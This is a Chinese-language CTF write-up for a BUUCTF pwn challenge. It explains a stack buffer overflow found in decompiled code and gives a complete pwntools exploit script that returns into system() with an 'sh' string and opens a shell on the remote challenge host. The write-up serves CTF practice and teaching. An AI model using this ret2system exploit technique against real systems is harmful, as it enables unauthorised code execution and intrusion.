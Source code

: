 ### 仅有 sh ROP

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67a7286cd0e0a243d4fd0d54.png)

反编译代码要先输入 administrator 通过验证

其中有三个选项以及一个隐藏选项

![](https://pic1.imgdb.cn/item/67a728c0d0e0a243d4fd0d67.png)

先看隐藏选项，它将 src 值给了 dest 最后打印

![](https://pic1.imgdb.cn/item/67a72930d0e0a243d4fd0d72.png)

在第一个选项中发现这个 src 值是有我们决定的最多 128 字节

![](https://pic1.imgdb.cn/item/67a72961d0e0a243d4fd0d7d.png)

看 dest 缓冲区明显存在栈溢出，同时左边 plt 表中有 system 函数可直接调用

![](https://pic1.imgdb.cn/item/67a729a5d0e0a243d4fd0d88.png)

但是在字符串表中并未找到 /bin/sh

![](https://pic1.imgdb.cn/item/67a72a05d0e0a243d4fd0da3.png)

/bin/sh 参数可以使用 sh 代替，使用工具 ROPgadget 看能不能查找到

![](https://pic1.imgdb.cn/item/67a72acad0e0a243d4fd0dd1.png)

既然有那就构造 payload

```python
from pwn import *

p = remote('node5.buuoj.cn',26585)

system = 0x080484d0
sh = 0x080482ea
main = 0x08048722

p.recvuntil('password:')
p.sendline('administrator')
p.recvuntil('Exit\n:')
p.sendline(str(1))
p.recvuntil('info:')

payload = b'a' * 0x4c + p32(system) + p32(main) + p32(sh)
p.sendline(payload)

p.recvuntil('Exit\n:')
p.sendline(str(4))
p.interactive()
```

成功拿到 flag

![](https://pic1.imgdb.cn/item/67a72a74d0e0a243d4fd0dbe.png)